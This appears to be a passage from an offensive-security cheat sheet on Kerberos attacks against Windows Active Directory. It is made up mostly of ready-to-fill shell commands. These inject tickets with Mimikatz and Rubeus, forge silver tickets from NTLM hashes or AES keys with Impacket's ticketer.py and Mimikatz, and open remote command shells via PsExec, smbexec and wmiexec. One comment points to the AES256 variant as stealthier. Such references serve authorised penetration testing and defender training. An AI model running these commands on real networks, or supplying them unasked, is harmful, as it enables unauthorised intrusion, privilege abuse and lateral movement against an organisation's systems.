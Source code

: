 
### Using ticket in Windows
Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Silver ticket
With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# To generate the TGS with NTLM
python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```
